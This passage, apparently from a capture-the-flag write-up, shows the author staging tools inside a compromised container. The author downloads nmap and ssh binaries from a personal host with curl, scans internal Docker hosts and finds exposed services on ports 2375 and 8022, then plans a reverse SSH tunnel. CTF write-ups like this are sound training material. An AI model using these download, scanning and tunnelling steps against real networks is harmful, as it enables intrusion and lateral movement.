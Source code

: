 Unfortunately, I did not found anything interesting in the database.

For more thorough network scan, we need more powerful tool – **nmap**. Although we don’t have access to package manager, but we could still download and run it. To make use of it, I downloaded [RPM package](https://nmap.org/dist/nmap-7.60-1.x86_64.rpm), extracted **nmap** binary and uploaded it to my own host on the internet. Downloading it like this:

```sh
$ mkdir ctf ; cd ctf
$ curl -o nmap http://my-secret-host.com/nmap
$ chmod +x nmap
It’s fun time:

$ ./nmap -p- 127.0.0.11
53/tcp    open  domain
80/tcp    open  http

$ ./nmap -p- 172.18.0.1
22/tcp   open  ssh
2375/tcp open  unknown  (!!!)
8000/tcp open  unknown

$ ./nmap -p- 172.18.0.2
22/tcp   open  ssh
8022/tcp open  unknown  (!!!)

$ ./nmap -p- 172.18.0.3
3306/tcp open  mysql

$ ./nmap -p- 172.18.0.4
80/tcp    open  http
```

2375 and 8022 opportunities seem huge to me!

What’s on the port 8022?

```sh
$ curl -s 172.18.0.2:8022
...
  <title>Docker-SSH</title>
...
```

Google tells me about [Docker-SSH](https://hub.docker.com/r/jeroenpeeters/docker-ssh/) – some tool for accessing console of Docker containers. It would be great to connect to this SSH. Small problem – it is located inside of the private network. Fortunately, we can bypass this by establishing [reverse SSH tunnel](https://unix.stackexchange.com/questions/46235/how-does-reverse-ssh-tunneling-work) from the host, to which we already have access.

To create reverse SSH tunnel, we need SSH client. Let’s [download](https://packages.debian.org/jessie/amd64/openssh-client/download) it following the same procedure as for nmap:

```sh
$ curl -o ssh-keygen http://my-secret-host.com/ssh-keygen
$ curl -o ssh http://my-secret-host.com/ssh
$ chmod +x ssh*
```
